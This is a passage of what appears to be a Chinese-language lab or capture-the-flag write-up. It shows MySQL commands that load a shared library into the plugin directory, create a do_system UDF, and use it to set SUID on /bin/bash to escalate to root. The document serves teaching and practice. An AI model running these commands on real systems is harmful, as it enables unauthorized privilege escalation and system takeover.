 在靶机内连接数据库，执行下面命令

```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select * from mysql.func;
select do_system('chmod u+s /bin/bash');
```

![](./pic-1/41.jpg)

这时候查询是否成功，并执行`do_system()`，以进行提取，当然这里不止这一种方式，对于其他的可以再尝试

![](./pic-1/42.jpg)

查看`/bin/bash`的权限，发现确实是变为`suid`权限了，执行后，提取至`root`
